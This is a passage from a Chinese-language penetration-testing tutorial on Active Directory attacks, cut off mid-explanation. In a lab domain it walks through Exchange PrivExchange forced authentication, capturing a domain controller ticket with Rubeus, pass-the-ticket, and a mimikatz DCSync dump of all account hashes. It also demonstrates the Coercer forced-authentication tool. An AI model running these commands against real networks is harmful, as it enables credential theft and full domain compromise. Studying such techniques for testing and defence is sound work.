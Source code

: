 在Exchange中，提供了网络服务API - PushSubscription，允许订阅推送通知。Exchange服务器在域中通常有很高的权限（WriteDacl，修改目标ACL的权限），是攻击的不戳目标。

攻击者可以利用该API迫使Exchange服务器对指定目标进行强制认证。

**条件：**

- 目标为Exchange，且未打补丁
- 拥有一个带有邮箱的域用户凭据信息

管理员权限运行Rubeus

```bash
Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$
```

使用 privexchange 漏洞利用工具，触发强制验证

```bash
python privexchange.py -u spiderman -p 123.com -d hack.lab -ah 20.20.20.100 20.20.20.7
```

导入 TGT 然后 DCSync

```bash
Rubeus.exe ptt /ticket:xxx
mimikatz.exe "lsadump::dcsync /all /csv"
```

#### 集成工具推荐 - Coercer

### 工具使用

分析目标服务器可利用的接口，使用 --analyze 参数

```shell
python Coercer.py -u spiderman -p 123.com -d hack.lab -l 20.20.20.100 -t 20.20.20.6 --analyze
```

PS：加 -v 可以显示更加详细的信息

![image-20231025204907688](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231025204907688.png)

执行强制验证攻击，默认先使用了 MS-EFSR::EfsRpcOpenFileRaw 方法

```shell
python Coercer.py -u spiderman -p 123.com -d hack.lab -l 20.20.20.100 -t 20.20.20.6
```

![image-20231025204916149](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231025204916149.png)

### DCSync攻击

DCSync 的原理非常清晰，利用**域控制器之间的数据同步复制**。

- 发现网络中的目标域控制器;
- 通过 DRS 服务的 GetNCChanges 接口发起数据同步请求，Directory Replication Service (DRS) Remote Protocol

Samba wiki 关于 GetNCChanges 的描述包括:
